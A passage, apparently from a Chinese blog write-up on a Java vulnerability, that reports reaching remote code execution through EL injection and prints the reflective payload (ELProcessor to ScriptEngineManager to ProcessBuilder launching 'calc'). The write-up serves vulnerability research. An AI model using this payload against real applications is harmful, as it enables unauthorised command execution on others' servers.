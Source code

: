 参数如下：

[![img](assets/202304221640261.png)](https://blog-1313934826.cos.ap-chengdu.myqcloud.com/blog-images/202304221640261.png)

最终通过el注入实现RCE，反射执行的语句可以整理为如下：

```java
(new ELProcessor()).eval("\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new
java.lang.ProcessBuilder['(java.lang.String[])'](['calc']).start()\")");
```

![img](assets/202304221640899.png)
